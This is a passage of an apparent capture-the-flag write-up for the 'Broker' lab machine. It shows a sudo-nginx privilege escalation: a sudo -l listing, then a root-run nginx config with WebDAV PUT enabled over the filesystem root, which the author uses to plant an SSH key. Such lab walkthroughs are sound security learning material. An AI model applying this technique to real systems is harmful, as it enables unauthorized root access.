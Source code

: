 One of the first things I will do before putting [linpeas](https://github.com/carlospolop/PEASS-ng/releases/tag/20231217-4a3b3f9d) or other scripts such as [lse.sh](https://github.com/diego-treitos/linux-smart-enumeration/blob/master/lse.sh) and [pspy64](https://github.com/DominicBreuker/pspy) on the machine, I run `sudo -l` looking to see if I can run a process as root.

```bash
activemq@broker:/tmp$ id
id
uid=1000(activemq) gid=1000(activemq) groups=1000(activemq)
activemq@broker:/tmp$ sudo -l
sudo -l
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

What do you know I can. I can see that the user **activemq** can basically use the [nginx](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwj4qtaeh5mDAxU_xQIHHZelAigQFnoECAYQAQ&url=https%3A%2F%2Fwww.nginx.com%2F&usg=AOvVaw10RW2cXcmCuZ2YnsYWHFKR&opi=89978449) web server.

Now I need to see is it possible to use it and escalate to **root**.

I can run Nginx as root with no password, which has to be the way.. By using a writeable folder such as `/dev/shm/`  to download an already made nginx configuration file I constructed using the nginx configuration from the official site [here](https://www.nginx.com/resources/wiki/start/topics/examples/full/). 

I will abuse the methods we saw get used by the **dav_methods**.  One in particular I like is PUT.
My thinking is create the conf file to have a user of root and to set a new port it will listen on:

```bash
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 9002;
        root /;
        autoindex on;
	dav_methods PUT;
    }
}
```

Above is what I use. I declare the PUT method in the hope I can place my public ssh key.
I need to build a curl command.  After a few attempts and a clean-up process wiping my conf file I finally got it and was able to SSH in as root and grab the `root.txt`. Below are my steps: 

I checked for a writeable folder:
